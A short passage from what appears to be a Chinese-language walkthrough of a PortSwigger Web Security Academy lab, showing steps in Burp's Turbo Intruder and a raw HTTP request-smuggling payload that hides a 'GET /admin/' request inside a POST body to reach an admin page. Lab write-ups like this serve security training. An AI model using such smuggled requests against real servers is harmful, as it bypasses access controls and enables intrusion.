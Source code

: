 [![](assets/1705301772-db9562b8119de4e59a8cba1ee79656fb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114184102-694f4b4e-b2c9-1.png)  
然后我们右键单击请求，选择 Extensions-> Turbo intrusor->发送到 Turbo intrusor  
[![](assets/1705301772-6219980871b81e4bf982f1256c0bce76.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114184115-71146f26-b2c9-1.png)  
在 Turbo Intruder 中将请求转换为 POST 请求，更改头部信息"keep-alive"，同时将完整的"GET /admin"请求添加到主请求的正文中 (注意这里有两个换行哦)

```bash
POST /resources HTTP/1.1
Host: 0aad0076039d4f288088e4a6007e0045.web-security-academy.net
Cookie: session=rwdFIEqyq1RBngaBvRN99WsxWGpsUpeD
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


GET /admin/ HTTP/1.1
Host: 0aad0076039d4f288088e4a6007e0045.web-security-academy.net
```

